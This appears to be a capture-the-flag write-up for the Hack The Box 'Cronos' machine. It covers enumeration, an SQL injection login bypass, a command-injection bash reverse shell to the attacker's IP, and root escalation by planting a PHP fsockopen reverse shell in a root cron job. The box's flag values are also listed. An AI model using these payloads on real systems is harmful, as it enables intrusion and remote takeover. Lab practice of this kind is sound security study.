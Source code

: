 ## HTB Cronos
**Linux** - **Medium**

---

## Engagement Overview
**Target:Cronos**   
**Box IP:10.10.10.13**   
**Local IP:10.10.14.10** 
**Date:2025-07-12**

---

### Objectives
- Compromise root crontab
- SQL injection vuln

---

### Service Enumeration

- nmap:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- gobuster:
Nothing of use

- DNS:
`cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb`

- SQL injection
Bypassed login @ admin.cronos.htb:
' or 1=1-- -


PING 10.10.14.10 (10.10.14.10) 56(84) bytes of data.
64 bytes from 10.10.14.10: icmp_seq=1 ttl=63 time=43.6 ms

--- 10.10.14.10 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 43.662/43.662/43.662/0.000 ms

**Burp Suite repeater**
command=ls -l&host=/var/www
drwxr-xr-x  2 www-data www-data 4096 May 10  2022 admin<br>
drwxr-xr-x  2 www-data www-data 4096 May 10  2022 html<br>
drwxr-xr-x 13 www-data www-data 4096 May 10  2022 laravel<br>

---
## Methodologies

### Initial Access –

**Vulnerability:**  
SQL injection


**Tools & Payloads Used:**
- Burp Suite command injection:
- command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=

**Penetration Result:**  
Shell access via command injection

---

## Privilege Escalation

- Cron job:
`* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`
* Poison injection
```
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

---

## House Cleaning

- Removed linpeas.sh and modifications to artisan cron job
- Exploit did not require uploads beyond shell payload

---

## Post-Exploitation

### Credentials & Flags

- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized

* Burp Suite
* linPEAS

---

## Key Takeaways

* linPEAS reported a ton of other vulns but, would be a nightmare to compile them
* New to SQL injection attacks and modifying cron jobs so this was a good experience
